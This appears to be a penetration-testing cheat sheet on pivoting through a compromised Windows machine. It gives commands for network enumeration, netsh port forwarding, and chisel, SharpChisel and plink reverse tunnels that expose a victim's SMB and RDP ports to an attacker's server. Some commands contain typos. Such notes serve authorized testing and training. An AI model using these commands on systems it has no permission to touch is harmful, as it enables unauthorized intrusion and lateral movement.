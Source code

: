 # Pivoting in Windows

## Pivoting in Windows

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

### Tunneling/Proxying

Create a proxy type connection through a compromised machine in order to route all traffic into the targeted network.

### Port Forwarding

Create a connection between a local port and a single port on a target.

## Pivoting Enumeration

### Enumerate the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```text
arp -a
```

### Enumerate Name Resolution

On Windows systems, we can find the name resolution mappings in:

```text
C:\Windows\System32\drivers\etc\hosts
```

### Enumerating Network Interface Cards \(NICs\)

First, we must determine which subnets are on the operating system to do that we can enumerate the system network interface cards with DOS/Batch or PowerShell:

```text
ipconfig /all
Get-NetIPConfiguration
```

### Enumerate Hosts

We can perform a ping a sweep to identify which hosts are up:

```text
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.
```

* /L = iterate through a command using a range of numbers and accept a replaceable parameter
* %i = replaceable parameter
* \(start, step, end\) = numbers to iterate
* -n 1 = ping one time every host
* -w 200 = timeout
* &gt; nul = filter

> Note: This uses ICMP and some Windows Operating Systems may have ICMP disabled.

Alternatively, we can use nmap with proxychains:

```text
proxychains nmap -top-ports=1000 -sT -Pn 10.5.5.25,30 --open
```

## Pivoting with netsh

[Netsh ](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts#:~:text=Netsh%20is%20a%20command%2Dline,in%20batch%20files%20or%20scripts.)is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running. Netsh commands can be run by typing commands at the netsh prompt and they can be used in batch files or scripts. Remote computers and the local computer can be configured by using netsh commands.

 We can use netsh to forward ports:

1. listenaddress – is a local IP address waiting for a connection.
2. listenport – local listening TCP port \(the connection is waited on it\).
3. connectaddress – is a local or remote IP address \(or DNS name\) to which the incoming connection will be redirected.
4. connectport – is a TCP port to which the connection from listenport is forwarded to.

```text
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

_**Example below:**_

First, establish a connection:

```text
# Syntax Simplified
netsh interface portproxy add v4tov4 listenport=1234 listenadress=compromised_IP connectport=second_target_PORT connectaddress=second_target_IP
netsh interface portproxy add v4tov4 listenport=1234 listenaddress=target_ip connectport=445 connectaddress=other_machine_ip

# Example
netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.168.134.10 connectport=445 connectaddress=172.16.1.50
```

Then verify that the connection has been made with:

```text
C:\Users\first_victim> netstat -anp TCP | find "1234"
```

## Pivoting with chisel

[Chisel ](https://github.com/jpillora/chisel)is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go \(golang\). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

Compiling chisel locally in our host:

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Let's say that we want to forward the ports 389 and 88 through port 8008 in our host, we can do that with [chisel](https://github.com/jpillora/chisel) by doing this:

```text
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

### Pivoting with SharpChisel

[SharpChisel](https://github.com/shantanu561993/SharpChisel) is a C\# wrapper for chisel:

```text
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Pivoting with plink

plink is an old networking tool that we can also use for forwarding ports:

```text
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

